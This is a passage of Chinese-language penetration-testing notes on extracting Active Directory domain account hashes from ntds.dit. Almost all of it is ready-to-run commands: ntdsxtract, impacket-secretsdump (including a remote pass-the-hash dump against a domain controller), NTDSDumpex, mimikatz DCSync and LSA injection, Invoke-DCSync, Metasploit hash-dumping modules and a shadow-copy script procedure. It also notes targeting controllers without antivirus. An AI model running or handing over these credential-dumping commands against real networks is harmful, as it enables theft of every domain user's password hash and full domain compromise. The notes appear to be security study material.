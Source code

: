 ```shell
git clone https://github.com/csababarta/ntdsxtract.git
//安装ntdsxtract
python setup.py build && python setup.py install
//将导出的ntds.dit.export文件夹和SYSTEM文件一并放入ntdsxtract
//将域内的所有用户名及散列值导出到all_user.txt
dsuser.py ntds.dit.expore/datatable.3 ntds.dit/export/link_table.5 output --sysshive SYSTEM --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout | tee all_user.txt
```
+ 导出域内信息
> ntds.dit包含域内的所有信息
```shell
//导出域内所有计算机的信息
python dscomputers.py ntds.dit.export/datatable.3 computer_output --cscoutfile all_computers.csv
```
### 6.2.2 使用impacket工具包到处散列值
> impacket工具包中的secretsdump也可以解析ntds.dit
```shell
//下载安装impacket(kali自带)
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
//通过用户名和散列值进行验证,从远程与控制器中读取ntds.dit并转储域散列值
impacket-secretsdump -hashes 哈希值 -just-dc pentest.com/administrator@192.168.100.205
``
### 6.2.3 在Windows下解析ntds.dit并导出域帐号和域散列值
+ NTDSDumpex.exe
​```cmd
//将ntds.dit,SYSTEM,和NTDSDumpex.exe放在同一目录下
NTDSDumpex.exe -d ntds.dit -s system
```
## 6.3 利用dcsync获取域散列值
### 6.3.1 使用mimikatz转储域散列值
> 域管理员权限
> mimikatz的dcsunc功能,利用卷影拷贝服务直接读取ntds.dit文件
```cmd
//域内的任意一台机器上,使用域管理员权限打开命令行
//导出域内的所有用户名及散列值
lsadump::dcsync /domain:pentest.com /all /csv
//导出指定用户的散列值
lsadump::dcsync /domain:pentest.com /user:用户名
//也可以直接在域控制器中运行mimikatz,通过转储lsass.exe进程对散列值进行dump操作
privilege::debug
lsadump::lsa /inject
//如果用户数量太多,mimikatz无法完全将其显示出来,可以先执行log命令(会在mimikatz目录下生成一个文本文件,用于记录所有执行结果)
```
### 6.3.2 使用dcsync获取域帐号和域散列值
+ Invoke-DCSync.ps1
`Invoke-DCSync -PWDumpFormat`
## 6.4 使用metasploit获取域散列值
+ psexec_ntdsgrab模块的使用
`auxiliary/admin/smb/psexec_ntdsgrab`
+ 基于meterpreter会话获取域帐号和域散列值
`post/windows/gather/credentials/domain_hashdump`
## 6.5 使用vshadow.exe和QuarksPwDump.exe导出域帐号和域散列值
> 适合域控制器上没有杀软,直接在域控制器中到处ndts.dit并获取域帐号和域散列值
> quarkpwdump可以快速,安全,全面的读取全部域帐号和域散列值,github开源
> shadowcopy是一款免费的增强型文件复制工具,使用微软的卷影拷贝技术,能够复制被锁定的文件及被其它程序打开的文件
> vshadow是从windowsSDK中提取出来的,可生成快照
1. 将全部文件放入domainhash文件夹中
2. 在shadowcopy.bat中设置工作目录为c:\windows\temp\
3. 执行shadowcopy.bat脚本,结果会在刚刚设置的工作目录下存放导出的ntds.dit和hash.txt